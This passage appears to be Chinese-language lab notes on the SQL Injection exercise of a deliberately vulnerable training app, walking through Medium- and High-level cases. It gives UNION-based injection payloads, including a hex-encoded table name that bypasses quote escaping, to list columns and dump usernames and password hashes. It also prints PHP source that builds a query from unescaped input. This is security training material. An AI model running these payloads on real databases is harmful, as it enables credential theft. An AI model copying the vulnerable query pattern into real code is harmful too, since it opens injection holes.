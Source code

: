 #### 获取字段名

需要注意的是，在Med等级引号会被转义，但实际上可以用16进制绕过转义

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

![image-20220822171814136](Lab7_SQL Injection.assets/image-20220822171814136.png)

**发现字段名： user_id, first_name, last_name, user, password, avatar, last_login, failed_login**

 

#### 尝试查表

```
1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```

![image-20220822172127381](Lab7_SQL Injection.assets/image-20220822172127381.png)



## High

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
